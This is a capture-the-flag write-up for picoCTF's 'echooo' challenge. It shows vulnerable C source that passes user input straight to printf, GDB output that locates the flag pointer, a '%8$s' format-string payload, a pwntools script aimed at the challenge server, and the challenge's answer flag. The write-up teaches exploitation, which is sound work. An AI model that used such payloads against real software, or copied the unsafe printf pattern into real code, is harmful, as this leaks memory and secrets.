



# echooo
**Points: 300**

## Binary Exploitation

## Question
>This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell.picoctf.com 46960. Source.

### Hint
>If only the program used puts...

## Solution
**Source code:**
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```
We know that this a format string challenge because of **printf(buf);**

Let's create a pattern to leak addresses:


```bash
~ python -c 'print "%x "*20'
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
~ echo '1r0nh4ck3d' > flag.txt
~ gdb -q echo
```
The flag is **1r0nh4ck3d**, we need to find the address and then try to leak it.
```console
gdb-peda$ b * 0x0804873d
gdb-peda$ find "1r0nh4ck3d"
[stack] : 0xffffcf8c ("1r0nh4ck3d\n")
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
40 f7f995c0 8048647 0 f7fde80e 8048248 ffffd084 **ffffcf8c** 0 804b160 25207825 78252078 20782520 25207825 78
252078 20782520 25207825 78252078 20782520 25207825
```


As you see we've leaked the address of the flag in the 8th place.
So to get the flag: **%8$s**


**Remotely:**
```python
from pwn import *

p = remote('2018shell.picoctf.com', 46960)
print p.recvuntil('> ')
p.sendline('%8$s')
print p.recv()
```


### Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`
